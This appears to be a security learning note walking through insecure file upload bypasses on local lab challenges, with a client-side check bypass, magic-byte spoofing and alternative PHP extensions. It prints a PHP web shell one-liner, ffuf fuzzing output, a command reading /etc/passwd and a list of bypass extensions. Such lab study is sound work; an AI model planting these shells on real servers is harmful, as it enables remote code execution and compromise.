 # Web App - Insecure File Upload

> - [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
> - [Insecure file upload | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/insecure-file-upload)

➡️ **Insecure file upload** occurs when an application improperly handles user-uploaded files, allowing attackers to upload malicious files, such as scripts or executables, which can lead to remote code execution, data breaches or server compromise.

---

## Insecure file upload - Basic bypass

- Run BurpSuite and open the `http://localhost/labs/f0x01.php` challenge
- Upload a `png` file and check the request in BurpSuite. Send it to the Repeater
  - there is a script checking for valid extensions only **client side**

```javascript
<script>
function validateFileInput(input) {
    var validExtensions = ['jpg', 'png'];
    var fileName = input.files[0].name;
    var fileNameExt = fileName.substr(fileName.lastIndexOf('.') + 1);
    if (!validExtensions.includes(fileNameExt.toLowerCase())) {
        input.value = '';
        alert("Only '.jpg' and '.png' files are allowed.");
    }
}
</script>
```

```bash
# In the repear Request, remove the PNG content and change the filename to .txt
Content-Disposition: form-data; name="uploaded_file"; filename="logo-tcm.txt"
Content-Type: image/png
hello world

# Send the request
# Response
The file logo-tcm.txt has been uploaded.
```

```bash
# e.g. for command execution

# filename="cmd.php"

<?php system($_GET['cmd']); ?>
```

![](.gitbook/assets/2025-02-28_00-55-21_916.png)

- To find `cmd.php` on the webserver, run `ffuf` to find the directories of the web server

```bash
ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt

assets		[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms]
includes	[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 0ms]
index.php	[Status: 200, Size: 27945, Words: 13300, Lines: 506, Duration: 11ms]
labs		[Status: 301, Size: 305, Words: 20, Lines: 10, Duration:
uploads		[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 0ms]
```

```bash
ffuf -u http://localhost/labs/FUZZ -w /usr/share/wordlists/dirb/common.txt

uploads		[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
```

- Open `http://localhost/labs/uploads/cmd.php?cmd=whoami` in the browser and check the command response
- Another one `view-source:http://localhost/labs/uploads/cmd.php?cmd=cat%20/etc/passwd`

![](.gitbook/assets/2025-02-28_01-02-32_917.png)

---

## Insecure file upload - Magic bytes

- Same as before, upload a `png` file and send the request to the BurpSuite repeater
- Clean the content and set the cmd shell

```bash
# filename="logo3.php"

<?php system($_GET['cmd']); ?>

# Response:
# Only '.jpg' and '.png' files are allowed.Sorry, your file was not uploaded.
```

- The extension checks are happening **server side**
- Check the **magic bytes** of the file. Sometimes applications identify file types based on their signature bytes. Replacing them in a file can trick the app.

```bash
# e.g.
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a OR GIF8;
```

```bash
file logo3.png
	logo.png: PNG image data, 1080 x 1080, 8-bit/color RGBA, non-interlaced
head logo3.png
# Check the first line - magic bytes
```

- Insert `<?php system($_GET['cmd']); ?>` in the PNG content - Success, file uploaded
- Open `http://localhost/labs/uploads/logo3.php?cmd=whoami`
  - if it does not work, modify the content by keeping only the magic byte and the php payload

![](.gitbook/assets/2025-02-28_01-14-39_918.png)

![](.gitbook/assets/2025-02-28_01-22-19_919.png)

- Command executed correctly at `http://localhost/labs/uploads/cmd2.php?cmd=whoami`

![](.gitbook/assets/2025-02-28_01-23-00_920.png)

- Extensions e.g.

```bash
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

---

## Insecure file upload - Challenge

- Upload `logo.png` and send request to BurpSuite repeater
- Modify the request as above and send it

```bash
# The file extension '.php' is not allowed.Sorry, your file was not uploaded.
```

> **[Checklist](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/insecure-file-upload#checklist)**
>
> - Understand the file upload functionality 
> - Are there file type restrictions? 
> - Are there file size restrictions? 
> - Are files renamed after upload? 
> - Are files checked for content type matching the extension? 
> - Test for bypassing file extension filters 
> - Upload a file with a double extension (e.g., .jpg.php) 
> - Upload a file with a null byte injection (e.g., .php%00.jpg) 
> - Test for malicious content within a file 
> - Upload a file with a simple XSS payload in its content 
> - Test for inadequate file storage handling 
> - Are uploaded files accessible from the internet? (Path/URL guessing) 
> - Can other users access the uploaded files? 

- Try with `php5` extension - Success

![](.gitbook/assets/2025-02-28_01-36-17_921.png)

- Browse to `http://localhost/labs/uploads/logo.php5?cmd=whoami` - error
- Try with `phtml` extension
  - `http://localhost/labs/uploads/logo.phtml?cmd=whoami` - Success

![](.gitbook/assets/2025-02-28_01-40-15_922.png)

---

